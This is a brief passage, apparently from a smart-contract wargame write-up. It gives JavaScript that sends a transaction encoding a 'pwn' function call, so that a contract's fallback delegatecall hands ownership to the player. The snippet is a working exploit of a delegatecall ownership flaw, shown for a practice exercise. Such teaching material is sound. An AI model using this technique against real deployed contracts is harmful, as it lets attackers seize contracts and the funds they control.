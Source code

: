 ```javascript
await sendTransaction({ 
	from : player, 
	to : contract.address, 
	data : web3.eth.abi.encodeFunctionCall({
	    name: 'pwn',
	    type: 'function',
	    inputs: []
	}, [])
});
```

Delegate call the pwn function to change the contract's ownership.